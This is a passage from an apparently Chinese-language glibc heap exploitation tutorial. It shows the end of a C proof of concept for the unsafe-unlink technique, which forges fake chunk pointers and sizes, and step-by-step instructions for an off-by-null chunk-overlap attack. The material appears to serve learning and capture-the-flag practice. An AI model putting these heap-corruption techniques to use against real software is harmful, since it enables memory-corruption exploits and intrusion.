 ```c
    /* Vuln */

    /* 
    > glibc2.27 :
    chunk1[0] = 0;
    chunk1[1] = 0x421;

    */
    chunk1[2] = (size_t)&chunk1 - 0x18;
    chunk1[3] = (size_t)&chunk1 - 0x10;

    chunk2[-2] = 0x420;
    chunk2[-1] = 0x430;
    /* Ends */

    free(chunk2);
    printf("After unlink the value of chunk1 is %p, and the value of chunk2 is %p.\n", chunk1, chunk2);

    return 0;
}
```

## glibc2.29 - latest

基本没区别，只需要在`chunk1`中额外写下`fake prevsize`和`fake size`，如下图

![unlink_2.38](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/imagesunlink_2.38.png)

由于`chunk1`内容一般可控，因此不需要额外漏洞

# off by null

## 适用版本

`Latest`，但大于等于`glibc2.29`时利用方式较为复杂

## <glibc2.29

### 利用方式

- 构造大、小、大三个`chunk`，设为`A B C`
- 保证`C`的`size`为`0x?00`，即`0x100`的倍数
- 释放`A`
- 填满`B`，写下`C`的`prev_size`为`A`和`B`的`size`之和
- 上一步的同时触发`off by null`，将`C`的`prev_inuse`位设为`0`
- 释放`C`，导致三个`chunk`合并，可获得`B`的重叠指针

### 实现效果
